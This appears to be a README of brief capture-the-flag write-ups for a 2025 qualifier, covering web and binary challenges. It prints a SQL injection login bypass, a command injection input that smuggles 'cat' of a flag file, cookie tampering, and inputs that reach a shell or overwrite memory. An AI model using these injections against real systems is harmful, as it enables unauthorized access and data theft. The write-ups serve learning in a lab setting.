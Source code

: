 # SSS_Qualifiers_v12

##### 2025 Edition

- **Web: Qualifiers: Sequel Pro**  
`we use SQL Injection for this as the title suggests`  
`user: admin`  
`pass: ' OR '1' = '1`  
`the secret appears`

- **Web: Qualifiers: Cake**  
`we change the value of the FLAG cookie in applepie`  
`we refresh and we see the cookie updated`  
`it is containing the flag`

- **Web: Qualifiers: Welcome**  
`we look at the source code`  
`first part in:`  
`/static/css/main.css`  
`second part in:`  
`<p id="hidden" style="margin-left:5px;display:inline:float:right">svyr_</p>`  
`third part in:`  
`/static/hidden.js?v=`  
`forth part in:`  
`/static/logo.png`

- **Web: Qualifiers: In Your Face**  
`we look at the source code`  
`<!-- U1NTe2NhZ2VfdHJhdm9sdGF9Cg== -->`  
`we apply base64 on this string`

- **Web: Qualifiers: IP Destroyer**  
`simple command injection to cat the flag.txt`  
`after searching in multiple the directories we find the flag inside /home/ctf/flag`  
`so the input to retrieve the flag is: -c 0 8.8.8.8; cat /home/ctf/flag`

- **Binary: Qualifiers: Black Hole**  
`opened it in IDA`  
`we see that the flag is printed in /dev/null and it is impossible to retrieve it from that address`  
`we use gdb to see the flag before it is written in that file`  
`gdb ./black_hole`  
`gef➤  break fwrite`  
`gef➤  run`  
`gef➤  x/s $rdi`  
`0x602480:       "SSS{the_[REDACTED]_see}"`

- **Binary: Qualifiers: One by One**  
`opened it in Ghidra and than we extract`  
`part20 64h; part0 53h; part24 6Fh; part18 6Fh; part3 7Bh; part27 7Dh; part11 6Fh; part13 5Fh; part23 6Ch; part12 66h; part14 74h; part21 5Fh; part9 70h; part26 6Bh; part17 5Fh; part25 63h; part15 68h; part6 63h; part7 68h; part22 62h; part2 53h; part8 69h; part5 5Fh; part19 6Ch; part4 61h; part16 65h; part1 53h; part10 5Fh`  
`we order them and than we convert them from base64`

- **Binary: Qualifiers: Not Backdoor**  
`the file not_backdoor.exe is a POSIX tar archive (GNU)`  
`we extract the not_backdoor than we analyse the code in IDA`  
`we use the following script to try all XOR possibilities in the function sub_4006B6`  
`orig = [60, 60, 60, 20, 31, 29, 92, 27, 27, 22, 48, 12, 95, 1, 25, 0, 3, 26, 27, 10, 11, 48, 9, 3, 91, 8, 18, 111]`  
`for key in range(256):`  
    `decoded = ''.join(chr(b ^ key) for b in orig)`  
    `print(key, decoded)`  
`there was one result that matched the format starting with SSS and was the flag`

- **Binary: Qualifiers: Mirror Me**  
`opened it in IDA`  
`in max_mirror() function the output is 906609`  
`we choose 2 numbers with the product 906609: 913 and 993, so we can get to system("/bin/sh");`  
`then we search for the flag in the system and we find it in ./home/ctf/flag`

- **Binary: Qualifiers: Pinpoint**  
`opened it in IDA`  
`.data:0000000000601058 v    dd 53535353h`  
`this is the value we need to modify`  
`1398297427 = 0x53585353`  
`initially v is 0x53535353`  
`the four bytes are: at address 0x601058 is 0x53, at address 0x601059 is 0x53, at address 0x60105A is 0x53, at address 0x60105B is 0x53`  
`the only diff between the init value (0x53535353) and the target (0x53585353) is in the third byte (offset 2)`  
`we only need to change that byte`  
`offset 2 so we have to modify at 0x601058 + 2 = 0x60105A`  
`we must change it from 0x53 (83 decimal) to 0x58 (88 decimal)`  
`0x60105A = 6295642`  
`so the inputs are 6295642 and 88`  
`then we search for the flag in the system and we find it in ./home/ctf/flag`

- **Binary: Qualifiers: The Talker**  
`*(_DWORD *)&s.sa_data[2] = htonl(0x7F000001u); -> sends to localhost`  
`*(_WORD *)s.sa_data = htons(4444u); -> sends at port 4444`  
`sleep(10u); -> each 10 seconds`  
`read_flag(buf, 128LL) reads ../flag into a buffer`  
`the binary sends to 127.0.0.1:4444 each 10 seconds using sendto()`  
`we login to connect@141.85.224.99 and we use nc -ul 4444 to listen to 4444 port and we receive the flag`
